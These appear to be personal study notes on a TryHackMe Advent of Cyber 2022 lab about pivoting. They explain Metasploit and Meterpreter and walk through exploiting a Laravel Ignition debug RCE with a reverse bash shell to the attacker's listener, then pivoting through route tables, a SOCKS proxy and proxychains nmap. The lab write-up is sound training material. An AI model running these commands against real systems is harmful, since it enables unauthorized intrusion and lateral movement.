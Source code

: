 **Title:** Day 9 - THM 2022
**Tags:** [[Advent Cyber 2022]]
**Topics:** #THM_Advent_2022 #Pivoting

---
# Concepts
## Docker
Package applications and the associated dependencies into a single unit called “image”. This image can be shared and run as a container (Locally or remotely on a production server).
Common wait to know if the application is a docker container is to verify the existence of a `.docker.env` file.

## Metasploit
Powerful penetration testing tool for gaining initial access to systems. You can also perform post-expoiltation and pivoting to other applications and systems.

### Metasploit session
After exploiting a remote target with a Metasploit module, a session is often opened by default. These sessions are Command Shells or Meterpreter session (Allow command execution).

```Metasploit Console
# view sessions
sessions

# upgrade the last opened session to Meterpreter
sessions -u -1

# interact with a session
sessions -i session_id

# Background the currently interactive session, and go back to the Metasploit prompt
background
```

## Meterpreter
Advanced payload that provides interactive access to compromised system. Can run commands on remote target, including uploading/downloading files and pivoting.

```Meterpreter Commands
# Get information about the remote system, such as OS
sysinfo

# Upload a file or directory
upload local_file.txt

# Display interfaces
ipconfig

# Resolve a set of host names on the target to IP addresses - useful for pivoting
resolve remote_service1 remote_service2
```

## Pivoting
Once a system is compromised, it can allow the attacker to find more systems on the network and exploit them. We can use nmap or arp-scan to find more machines and services.
![[Pasted image 20221210101259.png]]


## Using Metasploit
1. Open Metasploit with `msfconsole` command.

2. Select the most useful Metasploit module for this attack (laravel).
```Metasploit
# To search for a module, use the ‘search’ command:
msf6 > search laravel

# Load a module with the ‘use’ command
msf6 > use multi/php/ignition_laravel_debug_rce

# view the information about the module, including the module options, description, CVE details, etc
msf6 exploit(multi/php/ignition_laravel_debug_rce) > info
```

3. Now you can view the options, set options and run the module.
```Metasploit Commands
# View the available options to set
show options

# Set the target host and logging
set rhost MACHINE_IP
set verbose true

# Set the payload listening address; this is the IP address of the host running Metasploit
set lhost LISTEN_IP

# show options again
show options

# Run or check the module
check
run
```

## Meterpreter to pivot
Metasploit has an internal routing table that can be modified with `route` command. This determines where to send network traffic through.
```Metasploit Commands
# Example usage
route [add/remove] subnet netmask [comm/sid]

# Configure the routing table to send packets destined for 172.17.0.1 to the latest opened session
route add 172.17.0.1/32 -1

# Configure the routing table to send packets destined for 172.28.101.48/29 subnet to the latest opened session
route add 172.28.10.48/29 -1

# Output the routing table
route print
```

## Socks Proxy
Intermediate server that supports relaying networking traffic between two machines. Allows the implementation of pivoting technique. You can run Socks Proxy locally or in the compromised system. This can be achieved using `auxiliary/server/socks_proxy` module.

```Metasploit Commands
use auxiliary/server/socks_proxy
run srvhost=127.0.0.1 srvport=9050 version=4a
```

Tools such as `curl` supports sending requests through a socks proxy server via `--proxy` flag.
```sh
curl --proxy socks4a://localhost:9050 http://10.10.40.65
```

ProxyChain can intercept the tool's request to open a new network connection and route the request through a socks proxy instead.
```sh
proxychains -q nmap -n -sT -Pn -p 22,80,443,5432 10.10.40.65
```

# Challenge
## Enumeration
```sh
└─# nmap -p- 10.10.40.65 -Pn -n -v
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:C2:4A:6E:C9:01 (Unknown)
```

## Web
![[Pasted image 20221210103547.png]]

Now we can see that the server is running Laravel (Common Web Application development framework).
The application may be vulnerable to a remote code execution exploit. We can use Metasploit to verify it.

## Metasploit

```Metasploit Commands
msf6 > use multi/php/ignition_laravel_debug_rce
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(multi/php/ignition_laravel_debug_rce) > check rhost=10.10.40.65 HttpClientTimeout=20

[*] Checking component version to 10.10.40.65:80
[*] 10.10.40.65:80 - The target appears to be vulnerable.
```

[//]: Set `HttpClientTimeout=20` or check may fail. If the connection is really slow/unstable, you may need a higher value.

Now that we know that the target is vulnerable, let's pwn it.
```Metasploit Commands
run rhost=10.10.40.65 lhost=OUR_IP HttpClientTimeout=20
```

To upgrade the session to Meterpreter, use the `sessions -u -1` command.
```Metasploit
background

Background session 1? [y/N]  y
msf6 exploit(multi/php/ignition_laravel_debug_rce) > sessions -u -1
```
![[Pasted image 20221210104759.png]]

[//]:  To connect to a session again, use `sessions -i 2`

